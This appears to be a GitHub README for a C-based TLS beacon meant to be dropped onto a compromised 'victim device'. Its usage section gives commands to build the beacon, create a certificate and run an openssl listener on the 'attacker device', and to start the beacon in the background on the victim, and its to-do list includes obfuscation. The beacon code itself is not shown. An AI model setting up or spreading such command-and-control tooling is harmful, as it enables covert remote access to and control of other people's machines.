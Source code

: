 # Lightweight-TLS-Beacon
C based beacon that makes use of TLS. Should be simple enough to throw into... most places.

TODO: Show all output
      Formatting
      Scheduling in
      Option to hard code IP/Port into build process
      Maybe do some obfuscation

Usage: 

```gcc ./beacon.c beacon -lssl -lcrypto```

Attacker device: ```openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes```
```openssl s_server -accept 4443 -cert cert.pem -key key.pem```

Victim device: ```chmod -x ./beacon; ./beacon &```
